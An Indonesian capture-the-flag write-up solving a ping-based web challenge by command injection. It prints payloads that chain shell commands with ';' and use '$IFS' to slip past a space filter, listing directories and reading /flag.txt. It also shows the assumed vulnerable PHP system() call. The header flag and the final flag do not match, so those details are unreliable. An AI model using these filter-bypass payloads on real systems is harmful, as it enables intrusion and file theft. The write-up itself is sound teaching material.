



# SCSC Internal CTF 2026 – Network Looking Glass

**Kategori**: Web Exploitation / Command Injection  
**Author**: SCSC Blue Team  
**Flag**: `SCSC{space_filter_is_not_enough}`

---
## Deskripsi Challenge

> Network Looking Glass – alat diagnostik jaringan internal SCSC. Sysadmin menggunakannya untuk melakukan ping ke perangkat lain.  
> Demi keamanan, input “SPASI” telah diblokir di aplikasi ini agar user tidak menjalankan perintah lain. Apakah filter tersebut cukup?

---
## Analisis Singkat

Aplikasi menampilkan tampilan terminal dengan perintah:

```bash
admin@scsc-node01:~$ ping -c 1 <input_user>
```

dan hasil eksekusi `ping` di bawahnya. Dari sini dapat diasumsikan backend menjalankan sesuatu seperti:

```php
system("ping -c 1 " . $_GET['host']);
```

Input spasi pada parameter diklaim diblokir oleh aplikasi. Namun, karena command dibungkus shell, masih terdapat beberapa kemungkinan:

- Pemisah perintah shell seperti `;`, `||`, `&&`, `|` tetap dapat digunakan tanpa spasi.
    
- Argumen bisa dipisah menggunakan `$IFS` sebagai pengganti spasi.
    

Pengujian awal menggunakan payload:

```text
127.0.0.1;ls$IFS-la
```
  
menghasilkan output direktori (misalnya daftar `.` `..` dan `index.php`) setelah output `ping`, sehingga mengonfirmasi adanya **command injection**.

Langkah berikutnya adalah enumerasi direktori root untuk mencari file flag:

```text
127.0.0.1;ls$IFS/
```
  
yang menampilkan antara lain:

```text
bin
boot
dev
etc
flag.txt
home
...
```

Dari sini terlihat jelas file `flag.txt` di root (`/flag.txt`).

---
## Proses Penyelesaian

Langkah-langkah penyelesaian secara ringkas:

1. **Mengonfirmasi command injection**
    
    - Masukkan payload berikut pada input host:
        
        ```text
        127.0.0.1;ls$IFS-la
        ```
        
    - Aplikasi mengeksekusi:
        
        ```bash
        ping -c 1 127.0.0.1;ls -la
        ```
        
        (di mana `-la` dipisah oleh `$IFS` yang diekspansi menjadi spasi oleh shell).
        
    - Muncul output `ls -la` setelah hasil `ping`, sehingga injection terbukti.
        
2. **Enumerasi root filesystem**
    
    - Gunakan payload:
        
        ```text
        127.0.0.1;ls$IFS/
        ```
        
    - Output menampilkan struktur direktori root, termasuk file mencurigakan:
        
        ```text
        flag.txt
        ```
        
3. **Membaca isi flag tanpa spasi literal**
    
    - Untuk menghindari filter spasi, gunakan `$IFS` sebagai pengganti:
        
        ```text
        127.0.0.1;cat$IFS/flag.txt
        ```
        
    - Di sisi server, shell akan mengeksekusi:
        
        ```bash
        ping -c 1 127.0.0.1; cat /flag.txt
        ```
        
    - Output dari web akan memuat flag:
        
        
---
## Flag

```text
SCSC26{p1nG_p1nG_bU4t_NyUsUp_m4sUk}
```